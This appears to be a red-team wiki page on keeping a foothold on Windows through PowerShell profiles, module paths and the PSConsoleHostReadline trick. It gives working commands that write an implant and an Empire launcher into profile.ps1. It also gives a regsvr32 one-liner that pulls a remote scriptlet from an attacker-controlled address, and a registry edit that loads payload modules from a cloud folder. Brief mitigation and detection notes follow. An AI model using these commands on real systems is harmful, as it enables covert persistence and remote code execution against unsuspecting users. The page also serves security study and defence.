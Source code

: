 # Powershell Profiles & Modules

## <mark style="color:red;">Powershell Profiles</mark>

#### PowerShell profile is a PowerShell script which enables system administrators and users to customize their environment and to execute specific commands when a PowerShell session initiates. It is similar to logon scripts that are used heavily by Administrators to map network drives and printers for users or gather information about the system.

&#x20;Modification of the contents of a PowerShell profile script allows an adversary or a red team to use this as a persistence mechanism if the user performs work on PowerShell on a regular basis. This technique can be executed under the context of the current user.

{% hint style="warning" %}
This technique works only if the user or another program is using powershell to do something.

If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

There are four places you can abuse the powershell profile, depending on the privileges you have:

```
$PROFILE | select *
```

![](<../../../.gitbook/assets/image (302).png>)

add the code to a `$profile` variable (that expands to the current user's profile file) that will get executed the next time the compromised user launches a powershell console:

```
dir %HOMEPATH%"\Documents\windowspowershell
echo c:\rto\pers\implant\implant.exe > %HOMEPATH%"\Documents\windowspowershell\profile.ps1
```

Once the compromised user launches powershell, our code gets executed.

### <mark style="color:orange;">Invoke-Item</mark>

Similar to starting a process the “Invoke-Item” cmdlet can be used to perform the default action of an item i.e. run a file, open an application etc. The launcher.bat is a payload generated by Empire with capability to self-delete itself upon execution as stealthier option since it doesn’t create a new process.

```
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShe
ll_profile.ps1" -Append
```

![](<../../../.gitbook/assets/image (310).png>)

When PowerShell initiates again on the system the file will be executed and the agent will communicate back with the command and control. The execution will not create a new process on the system as the example above and it will use the existing PowerShell process.

### <mark style="color:orange;">Invoke-Command</mark>

The usage of the cmdlet “Invoke-Command” allows the execution of commands. The regsvr32 method can be used as a stealthy option since can evade application whitelisting solutions that are not properly configured and the scriptlet can be executed from a remote location.

```
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://10.0.2.21:8080/jWcEbr.sct s
crobj.dll }'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShe
ll_profile.ps1" -Append
```

![](<../../../.gitbook/assets/image (130).png>)

### <mark style="color:orange;">Other Techniques</mark>

The Metasploit Framework contains a module (web\_delivery) which can generate and serve malicious scriptlet files. However other Command and Control (C2) frameworks like PoshC2 support this functionality and can provide extended capability compare to Metasploit.

{% embed url="https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/" %}

## <mark style="color:red;">Powershell Modules</mark>

The PowerShell engine is automatically aware of module components since version 3. PowerShell will load .psm1 files from the PSModulePath when invoked. This is a great place to establish a persistent PowerShell payload. We can either drop it in the default path or edit the registry setting to include a special path. The example here uses a cloud-hosted SkyDrive to contain the payload. We only need to update the module file, and the victim will include the updated module the next time a PowerShell is invoked.

```
$origpaths =(Get-ItemProperty -Path
"Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session
Manager\Environment" -Name PSModulePath ).PSModulePath
$newPath=$origpaths+";C:\Users\J\OneDrive\PowerShell\"
Set-ItemProperty -Path
"Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\S
ession Manager\Environment"-Name PSModulePath -Value $newPath
```

## <mark style="color:red;">PSConsoleHostReadline</mark>

In PowerShell 3.0, the system PATH is used to enumerate executables, specifically looking for a nonexistent file: PSConsoleHostReadline. Because the file doesn't exist, PowerShell attempts to load PSConsoleHostReadline with a long list of possible executable extensions: .ps1, .psm1, .psd1, .com, .exe, .bat, .cmd, .vbs, and so on. As an attacker, all you need is to drop one PowerShell script somewhere in the PATH of a PowerShell v3 system and wait for any PowerShell interactive session like this:

```
$PSHOME\PSConsoleHostReadline.bat
```

{% hint style="info" %}
This particular missing file "feature" was removed in PowerShell v4, but because PowerShell v3 shipped with Windows 8 and Server 2012, the technique is still valid. The attacker needs to write to the correct filename and then wait for the victim to run PowerShell interactively to run the dropped payload. Just note that whatever payload you drop will run with each line used in an interactive session on the victim.
{% endhint %}

Because the function isn't defined by default, PowerShell attempts to use Windows standard PATHEXT (such as .com, .exe, .bat, .cmd, .vbs, .vbe, .js, .jse, .wsf, .wsh, .msc) along the environment PATH. Simply drop in a filename with a preferred extension in an earlier PATH directory. Common user-writable directories include C:\Python27\ and C:\Windows\System32\WindowsPowerShell\v1.0\ .

## <mark style="color:red;">Mitigation</mark>

* Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified.
* Making PowerShell profiles immutable and only changeable by certain administrators will limit the ability for adversaries to easily create user level persistence.
* Avoid PowerShell profiles if not needed. Use the -No Profile flag with when executing PowerShell scripts remotely to prevent local profiles and scripts from being executed.

## <mark style="color:red;">Detection</mark>

* Locations where `profile.ps1` can be stored should be monitored for new profiles. [\[4\]](http://www.malwarearchaeology.com/s/Windows-PowerShell-Logging-Cheat-Sheet-ver-June-2016-v2.pdf) Example profile locations include: _`$PsHome\Profile.ps1`_ `$PsHome\Microsoft.{HostProgram}_profile.ps1` _`$Home\My Documents\PowerShell\Profile.ps1`_ `$Home\My Documents\PowerShell\Microsoft.{HostProgram}_profile.ps1`
* Locations where `profile.ps1` can be stored should be monitored for modifications. [\[4\]](http://www.malwarearchaeology.com/s/Windows-PowerShell-Logging-Cheat-Sheet-ver-June-2016-v2.pdf) Example profile locations include: _`$PsHome\Profile.ps1`_ `$PsHome\Microsoft.{HostProgram}_profile.ps1` _`$Home\My Documents\PowerShell\Profile.ps1`_ `$Home\My Documents\PowerShell\Microsoft.{HostProgram}_profile.ps1`

